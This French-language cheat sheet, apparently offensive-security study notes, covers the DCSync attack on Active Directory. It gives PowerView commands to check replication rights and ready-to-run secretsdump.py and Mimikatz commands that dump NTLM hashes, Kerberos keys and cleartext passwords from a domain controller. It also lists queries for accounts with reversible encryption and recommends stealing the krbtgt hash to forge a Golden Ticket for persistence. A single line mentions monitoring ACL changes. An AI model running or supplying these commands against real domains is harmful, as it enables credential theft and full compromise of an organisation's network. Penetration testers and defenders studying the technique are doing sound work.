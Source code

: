 # DCSync

### <mark style="color:red;">Qu'est-ce que DCSync?</mark>

* Technique permettant de voler la base de données des mots de passe Active Directory
* Utilise le protocole Directory Replication Service Remote Protocol (utilisé par les contrôleurs de domaine)
* Permet à un attaquant d'imiter un contrôleur de domaine pour récupérer les hashes de mots de passe NTLM

***

### <mark style="color:red;">Prérequis pour l'attaque</mark>

* Contrôler un compte ayant des droits de réplication de domaine
* Nécessite les permissions :
  * `Replicating Directory Changes`
  * `Replicating Directory Changes All`
* Par défaut, ces droits sont accordés aux :
  * Administrateurs de domaine
  * Administrateurs d'entreprise
  * Comptes d'administrateurs par défaut

***

### <mark style="color:red;">Vérification des privilèges de réplication</mark>

#### <mark style="color:green;">Avec PowerView</mark>

```powershell
# Vérifier l'appartenance à des groupes
Get-DomainUser -Identity USERNAME | select samaccountname,objectsid,memberof,useraccountcontrol | fl

# Vérifier les droits de réplication (après avoir récupéré le SID)
$sid = "S-1-5-21-3842939050-3880317879-2865463114-1164"
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} | select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

***

### <mark style="color:red;">Exécution de l'attaque DCSync</mark>

#### <mark style="color:green;">Avec Impacket (secretsdump.py)</mark>

```bash
# Extraction complète (hashes NTLM + clés Kerberos)
secretsdump.py -outputfile PREFIX -just-dc DOMAINE/UTILISATEUR@IP_DC

# Extraction des hashes NTLM uniquement
secretsdump.py -outputfile PREFIX -just-dc-ntlm DOMAINE/UTILISATEUR@IP_DC

# Extraction pour un utilisateur spécifique
secretsdump.py -outputfile PREFIX -just-dc-user CIBLE_USER DOMAINE/UTILISATEUR@IP_DC

# Options supplémentaires utiles
# -pwd-last-set : Afficher quand les mots de passe ont été modifiés
# -history : Extraire l'historique des mots de passe
# -user-status : Vérifier si les comptes sont désactivés
```

#### <mark style="color:green;">Avec Mimikatz</mark>

```powershell
# Se connecter avec l'utilisateur ayant les droits de réplication
runas /netonly /user:DOMAINE\UTILISATEUR powershell

# Dans la session PowerShell ouverte
.\mimikatz.exe
privilege::debug
lsadump::dcsync /domain:NOM_DOMAINE /user:DOMAINE\UTILISATEUR_CIBLE
```

***

### <mark style="color:red;">Vérification des comptes avec chiffrement réversible</mark>

#### <mark style="color:green;">Avec Get-ADUser</mark>

```powershell
# Trouver les comptes avec chiffrement réversible activé
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
```

#### <mark style="color:green;">Avec PowerView</mark>

```powershell
# Trouver les comptes avec chiffrement réversible activé
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} | select samaccountname,useraccountcontrol
```

***

### <mark style="color:red;">Fichiers générés par secretsdump.py</mark>

* `PREFIX.ntds` : Contient les hashes NTLM
* `PREFIX.ntds.kerberos` : Contient les clés Kerberos
* `PREFIX.ntds.cleartext` : Contient les mots de passe en clair pour les comptes avec chiffrement réversible activé

***

### <mark style="color:red;">Points importants à retenir</mark>

* Les comptes avec chiffrement réversible activé exposent les mots de passe
* L'attaque DCSync est difficile à détecter car elle utilise un protocole légitime
* Idéal pour exfiltrer le hash du compte krbtgt et créer un Golden Ticket (persistence)
* Assurez-vous de surveiller les modifications des ACL du domaine pour détecter l'ajout de privilèges de réplication
